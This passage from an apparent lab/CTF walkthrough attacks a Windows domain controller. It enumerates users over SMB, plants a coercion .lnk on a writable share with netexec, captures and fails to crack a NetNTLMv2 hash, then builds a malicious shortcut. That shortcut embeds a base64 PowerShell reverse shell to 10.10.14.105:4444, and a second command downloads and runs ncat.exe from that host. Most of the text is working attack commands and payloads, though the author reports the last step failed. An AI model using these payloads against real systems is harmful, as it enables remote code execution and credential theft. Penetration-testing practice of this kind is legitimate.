SMB         10.13.38.47     445    DC01             SYSVOL                          Logon server share 
SMB         10.13.38.47     445    DC01             498: SIDECAR\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.13.38.47     445    DC01             500: SIDECAR\Administrator (SidTypeUser)
SMB         10.13.38.47     445    DC01             501: SIDECAR\Guest (SidTypeUser)
SMB         10.13.38.47     445    DC01             502: SIDECAR\krbtgt (SidTypeUser)
SMB         10.13.38.47     445    DC01             512: SIDECAR\Domain Admins (SidTypeGroup)
SMB         10.13.38.47     445    DC01             513: SIDECAR\Domain Users (SidTypeGroup)
SMB         10.13.38.47     445    DC01             514: SIDECAR\Domain Guests (SidTypeGroup)
SMB         10.13.38.47     445    DC01             515: SIDECAR\Domain Computers (SidTypeGroup)
SMB         10.13.38.47     445    DC01             516: SIDECAR\Domain Controllers (SidTypeGroup)
SMB         10.13.38.47     445    DC01             517: SIDECAR\Cert Publishers (SidTypeAlias)
SMB         10.13.38.47     445    DC01             518: SIDECAR\Schema Admins (SidTypeGroup)
SMB         10.13.38.47     445    DC01             519: SIDECAR\Enterprise Admins (SidTypeGroup)
SMB         10.13.38.47     445    DC01             520: SIDECAR\Group Policy Creator Owners (SidTypeGroup)
SMB         10.13.38.47     445    DC01             521: SIDECAR\Read-only Domain Controllers (SidTypeGroup)
SMB         10.13.38.47     445    DC01             522: SIDECAR\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.13.38.47     445    DC01             525: SIDECAR\Protected Users (SidTypeGroup)
SMB         10.13.38.47     445    DC01             526: SIDECAR\Key Admins (SidTypeGroup)
SMB         10.13.38.47     445    DC01             527: SIDECAR\Enterprise Key Admins (SidTypeGroup)
SMB         10.13.38.47     445    DC01             553: SIDECAR\RAS and IAS Servers (SidTypeAlias)
SMB         10.13.38.47     445    DC01             571: SIDECAR\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.13.38.47     445    DC01             572: SIDECAR\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.13.38.47     445    DC01             1000: SIDECAR\DC01$ (SidTypeUser)
SMB         10.13.38.47     445    DC01             1101: SIDECAR\DnsAdmins (SidTypeAlias)
SMB         10.13.38.47     445    DC01             1102: SIDECAR\DnsUpdateProxy (SidTypeGroup)
SMB         10.13.38.47     445    DC01             1602: SIDECAR\A.Roberts (SidTypeUser)
SMB         10.13.38.47     445    DC01             1603: SIDECAR\J.Chaffrey (SidTypeUser)
SMB         10.13.38.47     445    DC01             1605: SIDECAR\O.osvald (SidTypeUser)
SMB         10.13.38.47     445    DC01             1606: SIDECAR\P.robinson (SidTypeUser)
SMB         10.13.38.47     445    DC01             1607: SIDECAR\M.smith (SidTypeUser)
SMB         10.13.38.47     445    DC01             1609: SIDECAR\E.Klaymore (SidTypeUser)
SMB         10.13.38.47     445    DC01             1610: SIDECAR\svc_deploy (SidTypeUser)
SMB         10.13.38.47     445    DC01             1611: SIDECAR\Installer (SidTypeGroup)
SMB         10.13.38.47     445    DC01             2101: SIDECAR\WS01$ (SidTypeUser)

```

Since from the challenge I know the coercion is about a **.lnk** file. I will use Netexec to upload one on that **Public** folder where I have write rights:

```bash
─$ netexec smb DC01 -u guest -p '' -M slinky -o SERVER=10.10.14.105 NAME=backup

SMB         10.13.38.47     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:Sidecar.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.13.38.47     445    DC01             [+] Sidecar.vl\guest: 
SMB         10.13.38.47     445    DC01             [*] Enumerated shares
SMB         10.13.38.47     445    DC01             Share           Permissions     Remark
SMB         10.13.38.47     445    DC01             -----           -----------     ------
SMB         10.13.38.47     445    DC01             ADMIN$                          Remote Admin
SMB         10.13.38.47     445    DC01             C$                              Default share
SMB         10.13.38.47     445    DC01             IPC$            READ            Remote IPC
SMB         10.13.38.47     445    DC01             NETLOGON                        Logon server share 
SMB         10.13.38.47     445    DC01             Public          READ,WRITE      
SMB         10.13.38.47     445    DC01             SYSVOL                          Logon server share 
SLINKY      10.13.38.47     445    DC01             [+] Found writable share: Public
SLINKY      10.13.38.47     445    DC01             [+] Created LNK file on the Public share
                                                                                                
```

Now apparently this folder should suit it more?  


Indeed now I have a hash baby!

```bash
[SMB] NTLMv2-SSP Client   : 10.13.38.48
[SMB] NTLMv2-SSP Username : SIDECAR\E.Klaymore
[SMB] NTLMv2-SSP Hash     : E.Klaymore::SIDECAR:d585c210bb0fa26c:BF3FB5688F65A6846298820E93161B44:0101000000000000000E69CAC4B6DC01EFD24B09B1D517890000000002000800500048003300520001001E00570049004E002D00570037004400370034004E0041004A0052005900480004003400570049004E002D00570037004400370034004E0041004A005200590048002E0050004800330052002E004C004F00430041004C000300140050004800330052002E004C004F00430041004C000500140050004800330052002E004C004F00430041004C0007000800000E69CAC4B6DC01060004000200000008003000300000000000000000000000002000001B6359EE6EE7D5FD0E42E092AF7C50BB8A9FE9FC6415506A183E04F18D9530010A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E00310030003500000000000000000000000000
[*] Skipping previously captured hash for SIDECAR\E.Klaymore
[*] Skipping previously captured hash for SIDECAR\E.Klaymore
[*] Skipping previously captured hash for SIDECAR\E.Klaymore
[*] Skipping previously captured hash for SIDECAR\E.Klaymore

```

But wait, the hash cannot be cracked ? Then it means I need to relay it?

```bash
Approaching final keyspace - workload adjusted.           

Session..........: hashcat                                
Status...........: Exhausted
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: E.KLAYMORE::SIDECAR:d585c210bb0fa26c:bf3fb5688f65a6...000000
Time.Started.....: Wed Mar 18 10:55:46 2026 (1 sec)
Time.Estimated...: Wed Mar 18 10:55:47 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (Wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:  9169.3 kH/s (9.50ms) @ Accel:1024 Loops:1 Thr:64 Vec:1
Recovered........: 0/1 (0.00%) Digests (total), 0/1 (0.00%) Digests (new)
Progress.........: 14344385/14344385 (100.00%)
Rejected.........: 0/14344385 (0.00%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#01...: 0877719441 -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.#01.: Temp: 60c Util: 64% Core:1800MHz Mem:5000MHz Bus:8

Started: Wed Mar 18 10:55:44 2026
Stopped: Wed Mar 18 10:55:48 2026

```

Now seems that even the hash cannot be relayed?  


Now the idea is to use this tool to create a link to the prompt that executes a command straight from the link and obtain a shell, here the safest opion would be creating that within a windows environment but I will try from Liux first.

```bash
┌──(mklnk-56RQVWfd)─(user㉿kali-almi)-[~/Downloads/Sidecar/mklnk]
└─$ python2.7 lnk.py shelly.lnk C:/Windows/System32/cmd.exe -a "/c powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQAwADUAIgAsADQANAA0ADQAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"


                                                                                                                                                               
┌──(mklnk-56RQVWfd)─(user㉿kali-almi)-[~/Downloads/Sidecar/mklnk]
└─$ ll    
total 1888
-rw-rw-r-- 1 user user 1908226 Mar 18 12:00 get-pip.py
-rw-rw-r-- 1 user user    5560 Mar 18 11:53 lnk.py
-rw-rw-r-- 1 user user     155 Mar 18 12:01 Pipfile
-rw-rw-r-- 1 user user    1017 Mar 18 11:53 readme.md
-rw-rw-r-- 1 user user      11 Mar 18 11:53 requirements.txt
-rw-rw-r-- 1 user user    1736 Mar 18 12:04 shelly.lnk
                                                                                                                                                               
┌──(mklnk-56RQVWfd)─(user㉿kali-almi)-[~/Downloads/Sidecar/mklnk]
└─$ cat shelly.lnk                                                             
L�F1��^�ƶ���^�ƶ���^�ƶ�P�O� �:i�+00�/C:\.1r\�`C:�r\�`r\�`C:<1r\�`Windows&�r\�`r\�`Windows@1r\�`System32(�r\�`r\�`System32<2r\�`cmd.exe&�r\�`r\�`cmd.exeC:\Windows\System32\I/c powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQAwADUAIgAsADQANAA0ADQAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA       
```

But then all the tests failed so I had to replicate this on Windows instead and i used this string in the link:

```bash
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -c Invoke-WebRequest -Uri 10.10.14.105/ncat.exe -OutFile C:/Windows/tasks/ncat.exe;C:/windows/tasks/ncat.exe 10.10.14.105 4444 -e powershell.exe
```

Honestly here I wasn't able to obtain anything, for this reason I will skip this challenge.